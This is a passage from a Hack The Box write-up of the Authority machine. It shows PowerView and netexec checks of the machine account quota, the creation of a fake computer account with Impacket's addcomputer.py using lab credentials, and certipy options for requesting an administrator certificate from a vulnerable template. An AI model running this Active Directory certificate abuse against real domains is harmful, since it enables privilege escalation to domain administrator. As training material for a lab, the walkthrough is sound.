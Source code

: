 #### Create Computer Account

In [Support](/2022/12/17/htb-support.html#create-fakecomputer) I had an exploitation path that required a fake computer. I’ll do the same thing here, though on Support I did it from a shell on the target, while here I’ll show how to do it remotely with [Impacket](https://github.com/SecureAuthCorp/impacket).

The setting that allows a user to add a computer to the domain is the `ms-ds-machineaccountquota`. On Authority, I can query this with [PowerView](https://github.com/PowerShellMafia/PowerSploit/blob/master/Recon/PowerView.ps1):

```
*Evil-WinRM* PS C:\programdata> upload /opt/PowerSploit/Recon/PowerView.ps1
Info: Uploading /opt/PowerSploit/Recon/PowerView.ps1 to C:\programdata\PowerView.ps1

Data: 1027036 bytes of 1027036 bytes copied

Info: Upload successful!
*Evil-WinRM* PS C:\programdata> . .\PowerView.ps1
*Evil-WinRM* PS C:\programdata> Get-DomainObject -Identity 'DC=AUTHORITY,DC=HTB' | select ms-ds-machineaccountquota

ms-ds-machineaccountquota
-------------------------
                       10

```

`netexec` will also do this from my VM:

```

oxdf@hacky$ netexec ldap 10.10.11.222 -u svc_ldap -p 'lDaP_1n_th3_cle4r!' -M MAQ
SMB         10.10.11.222    445    AUTHORITY        [*] Windows 10.0 Build 17763 x64 (name:AUTHORITY) (domain:authority.htb) (signing:True) (SMBv1:False)
LDAPS       10.10.11.222    636    AUTHORITY        [+] authority.htb\svc_ldap:lDaP_1n_th3_cle4r!
MAQ         10.10.11.222    389    AUTHORITY        [*] Getting the MachineAccountQuota
MAQ         10.10.11.222    389    AUTHORITY        MachineAccountQuota: 10

```

Now I can add the computer with `addcomputer.py`:

```

oxdf@hacky$ addcomputer.py 'authority.htb/svc_ldap:lDaP_1n_th3_cle4r!' -method LDAPS -computer-name 0xdf -computer-pass 0xdf0xdf0xdf -dc-ip 10.10.11.222
Impacket v0.10.1.dev1+20230608.100331.efc6a1c3 - Copyright 2022 Fortra

[*] Successfully added machine account 0xdf$ with password 0xdf0xdf0xdf.

```

#### Create Certificate

With the computer account on the domain, now `certipy` will create the certificate with the following options:
- `req` - request a certificate
- `-username '0xdf$' -password 0xdf0xdf0xdf` - auth as the computer account created above
- `-ca AUTHORITY-CA` - the certificate authority associated with the ADCS
- `-dc-ip 10.10.11.222` - the IP of the DC
- `-template CorpVPN` - the name of the vulnerable template
- `-upn administrator@authority.htb` - the user requesting the certificate for
- `-dns authority.htb` - the DNS server to use in this request
